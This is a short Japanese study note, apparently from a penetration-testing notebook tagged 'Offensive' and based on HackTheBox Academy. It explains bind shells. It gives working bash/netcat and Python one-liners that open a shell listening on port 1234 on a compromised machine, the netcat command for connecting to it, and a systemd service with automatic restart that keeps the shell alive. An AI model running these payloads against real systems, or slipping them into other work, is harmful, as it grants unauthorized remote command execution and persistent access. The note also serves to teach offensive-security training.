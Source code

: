 ```yaml
---
tags:
  - Offensive
---
```


# Bind Shell

エクスプロイトを実行して、攻撃対象のマシンに侵入またはリモートコードを実行できるとき、攻撃対象のマシンでコマンドを実行して、リッスン状態にさせる。そうすることで、自分のマシンからシェルに接続できる。

[[ReverseShell]]の逆。

攻撃対象のマシンでシェルが閉じられた場合、すぐに切れてしまうのが弱点。そうなった場合、またエクスプロイトを実行してやり直す必要がある。その対策として、サービスとして自動で起動させる方法もある。

## 攻撃対象のマシンで実行するコマンド例

[チートシート PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md)

IPアドレス`0.0.0.0`をリッスンすることで任意のIPからの接続を受け付ける。

- bash
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

## 接続

[[NetCat]]を使って接続できる。
```shell-session
nc <IP> <ポート>
```

## サービスの例

- .serviceファイル
```service
[Unit]
Description=<サービの説明>

[Service]
ExecStart=/bin/bash <サービスのshファイル>
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```
- サービスを起動
```
systemctl enable <サービス名>
```



---

## 参照

1. https://academy.hackthebox.com/module/77/section/725